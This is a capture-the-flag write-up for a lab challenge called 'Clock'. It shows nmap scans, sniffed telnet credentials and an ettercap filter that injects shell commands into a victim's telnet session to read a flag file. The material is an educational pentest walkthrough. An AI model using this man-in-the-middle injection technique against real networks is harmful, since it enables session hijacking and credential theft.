




# Clock
Network/Pentest

## Challenge 

Slapping modern crypto on protocol from the 70s is a lot like pad locking a glass door...

Difficulty: medium

[clock.ovpn](clock.ovpn)

## Solution

### Setup

Install OpenVPN

	$ sudo apt-get install -y openvpn

Start OpenVPN with the given configuration

	$ sudo openvpn clock.ovpn

### Scan Hosts

Scan subnet

	$ nmap -sP 172.30.0.0/28

We have 2 hosts: `172.30.0.2` with telnet, while `172.30.0.3` has nothing.

	$ nmap -sV 172.30.0.2
	PORT     STATE    SERVICE  VERSION
	23/tcp   open     telnet   Linux telnetd
	2383/tcp filtered ms-olap4
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	$ nmap -sV 172.30.0.3
	All 1000 scanned ports on 172.30.0.3 are closed

### Man in the middle (MITM) attack

Similar to the earlier [Calculator](../Solved/Calculator) challenge, it seems like we need to hijack the Telnet traffic.

Follow the same instructions in the [Calculator](../Solved/Calculator) challenge to launch MITM attack.

At the same time, sniff the packets using Wireshark

### Extract the data

Enter filter in wireshark to get only telnet packets

	telnet

Now right click any of the packets

	Follow > TCP Stream

We see that after entering username `alice` and password `TickTockOnTheCl0ck`. We need to solve a crypto challenge.

	alice
	TickTockOnTheCl0ck

	Ubuntu 16.04.5 LTS
	6fb0b5aaba58 login: ...alice
	Password: TickTockOnTheCl0ck

	challenge [1d868d1ffa19ae94]
	response: 68a663f6370f9979f3bfd7efae95ef7c514dcc9d5fcd357a14eb3650b935c396
	68a663f6370f9979f3bfd7efae95ef7c514dcc9d5fcd357a14eb3650b935c396
	Last login: Thu Feb 28 03:46:21 UTC 2019 from z7ast123_clock_client_1.z7ast123_clock_default on pts/0
	Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 4.15.0-1032-aws x86_64)

Seems like there's no way to crack the crypto... After running a few times, it looks unintelligible to me

	challenge [495bbbaf8184043b]
	response: 5de66b463557f9fe5fc43144bd9de7ec383c4c70f2dd3921a51bfaf18353f03d

	challenge [a4be3c5f15b83531]
	response: 653f433709499d4dba3d3b68343c6f0c73338eaab6acee4bf3d00066ff8523ad

	challenge [74d8aa1167402e2a]
	response: beb8e54cc38761207585cb9607f4454c8e9daafaf20f77375bd30c4f2c5352ae

# Alter the Traffic (MiTM Attack)

With that said, the descriptions mentions of the lock as the crypto, while the glass door is telnet.

***Telnet is the vulnerability and we need not break the crypto...***

> Reference: https://www.hackers-arise.com/single-post/2017/08/28/MiTM-Attack-with-Ettercap

Refer back to our sniffed traffic data. We can try to inject some commands into telnet to cat out the flag.

Since the date and exit commands entered by the user are non-continuous, I decided the best replacement will be to hijack `xi`. (Since `x` is an uncommon character as compared to the other commands of `d, at, e, e, it`)

Craft a simple ettercap filter script

	# hijack client packets before it is sent to server.
	if (ip.proto == TCP && ip.dst == '172.30.0.2' && tcp.dst == 23) {
	   replace("xi", "\n\nls -la;\n#");
	   msg("Hijacked A\n");
	}

Then compile it 

	$ etterfilter filter.mine -o filter.compiled

> Load it in Ettercap using: `Filters > Load a filter`

After that, continue sniffing the traffic and we see out payload is successful.

Now we know the flag is in .ctf_flag. Modify the filter to cat it out.

	# hijack client packets before it is sent to server.
	if (ip.proto == TCP && ip.dst == '172.30.0.2' && tcp.dst == 23) {
	   replace("xi", "\n\ncat .ctf_flag\n#");
	   msg("Hijacked B\n");
	}

	alice@6fb0b5aaba58:~$ cat .ctf_flag
	gigem{a032b26061c96e00e2a0b9e991f11476}
	alice@6fb0b5aaba58:~$ #

## Flag

	gigem{a032b26061c96e00e2a0b9e991f11476}
